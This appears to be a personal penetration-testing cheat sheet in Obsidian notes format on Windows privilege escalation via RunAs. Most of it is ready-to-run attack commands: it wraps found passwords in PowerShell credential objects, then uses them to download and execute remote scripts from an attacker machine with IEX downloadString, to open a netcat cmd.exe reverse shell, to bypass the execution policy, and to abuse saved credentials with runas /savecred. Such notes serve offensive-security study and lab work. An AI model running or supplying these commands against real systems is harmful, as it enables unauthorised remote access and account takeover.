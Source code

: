 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

####  RunAs via PowerShell (Requires creds)
**Method1**
Attempting to re-use a found password with the Administrator account can be achieved using PowerShell:

![[Pasted image 20220926193742.png]]

```Powershell - target
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

will store the credentials in `$creds` for the session. 

A reverse shell can now be opened with the supplied credentials using the command:

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://$KALI/Shelly.ps1')" -Credential $creds
```

**Method2**


Say we already have Alice's (Local Admin member) password, we can execute cmd as her.

[[rlwrap]]

```powershell - target
echo $username = 'alice' > startprocess.ps1
```

```powershell - target
echo $password = '$PASSWORD' >> startprocess.ps1
```

```powershell - target
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
```

```powershell - target
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
```

Transfer over nc.exe
```bash - kali
cp /usr/share/windows-resources/binaries/nc.exe .
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```
echo $KALI
```

==REPLACE $KALI WITH YOUR IP!==
```command prompt - target
echo Start-Process 'C:\Users\$USER\AppData\Local\Temp\nc.exe' -ArgumentList '-e C:\Windows\System32\cmd.exe $KALI 443' -Credential $credential >> startprocess.ps1
```

```command prompt - target
powershell.exe Get-ExecutionPolicy -Scope CurrentUser
```

```command prompt - target
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```command prompt - target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```

#### RunAs via cmdkey
```command prompt - windows
cmdkey /list
```

![[Pasted image 20220206132243.png]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

```command prompt - target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://$KALI/Invoke-PowerShellTcp.ps1')"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
